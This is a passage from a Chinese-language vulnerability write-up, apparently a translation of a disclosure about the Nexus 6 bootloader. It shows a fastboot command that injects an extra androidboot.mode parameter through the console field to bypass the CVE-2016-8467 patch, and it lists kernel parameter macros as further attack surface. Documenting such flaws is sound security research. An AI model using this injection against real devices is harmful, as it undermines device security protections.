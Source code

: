 正如我们所料，我们可以将ro.boot属性设为任意值：



```
shamu:/ $ getprop ro.boot.foo
0
shamu:/ $ getprop ro.boot.bar
1
shamu:/ $ getprop ro.boot.baz
2
shamu:/ $
```



**三、绕过CVE-2016-8467的补丁**

到目前为止，我们可以轻易绕过[CVE-2016-8467](https://alephsecurity.com/vulns/aleph-2016002)的补丁：



```
$ fastboot oem config console "a androidboot.mode=bp-tools "
[...]
(bootloader) &lt;UTAG name="conolse" type="str" protected="false"&gt;
(bootloader)   &lt;value&gt;
(bootloader)     a androidboot.mode=bp-tools
(bootloader)   &lt;/value&gt;
(bootloader)   &lt;description&gt;
(bootloader)     Carrier IDs, see http://goo.gl/lojLh3
(bootloader)   &lt;/description&gt;
(bootloader) &lt;/UTAG&gt;
[...]
```

结果正如我们所料：



```
shamu:/ $ getprop ro.boot.mode
bp-tools
shamu:/ $
```

需要注意的是，我们必须更改console参数，这样才能击败真正的androidboot.mode参数（该参数由bootloader插入，负责处理init进程的内核命令行的代码位于“core/init/init.cpp!import_kernel_nv“中）。

<br>

**四、一个全新的攻击面**

在整个操作系统中，有多个实体使用了内核命令行，包括：

1、内核代码中的__setup宏。

2、内核代码中的early_param宏。

3、内核模块代码中的module_param宏。

4、内核模块代码中的core_param宏。

